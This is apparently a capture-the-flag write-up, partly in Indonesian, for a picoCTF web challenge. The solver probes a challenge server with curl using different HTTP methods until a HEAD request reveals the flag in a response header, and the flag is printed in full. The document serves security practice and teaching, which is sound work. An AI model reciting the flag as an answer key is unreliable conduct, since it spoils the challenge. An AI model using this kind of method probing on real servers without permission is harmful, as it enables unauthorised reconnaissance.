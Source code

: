 # soal
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:45028/

# hint
- Maybe you have more than 2 choices
- Check out tools like Burpsuite to modify your requests and look at the responses

# solve
- saya mencoba curl dengan beberapa method
  ```bash
  curl -X GET http://mercury.picoctf.net:45028/index.php # red
  curl -X POST http://mercury.picoctf.net:45028/index.php # blue
  curl -X PUT http://mercury.picoctf.net:45028/index.php # ?
  curl -X DELETE http://mercury.picoctf.net:45028/index.php # ?
  curl -X PATCH http://mercury.picoctf.net:45028/index.php # ?

  curl -X HEAD http://mercury.picoctf.net:45028/index.php #
  # Warning: Setting custom HTTP method to HEAD with -X/--request may not work the
  # Warning: way you want. Consider using -I/--head instead.

  ## lalu saya mencoba untuk malkaukan request namun tanpa response body hanya header nya saja
  curl -I http://mercury.picoctf.net:45028/index.php
  curl -I HEAD http://mercury.picoctf.net:45028/index.php
  # curl: (6) Could not resolve host: HEAD
  # HTTP/1.1 200 OK
  # flag: picoCTF{r3j3ct_th3_du4l1ty_775f2530}
  # Content-type: text/html; charset=UTF-8
  ```

# flag
picoCTF{r3j3ct_th3_du4l1ty_775f2530}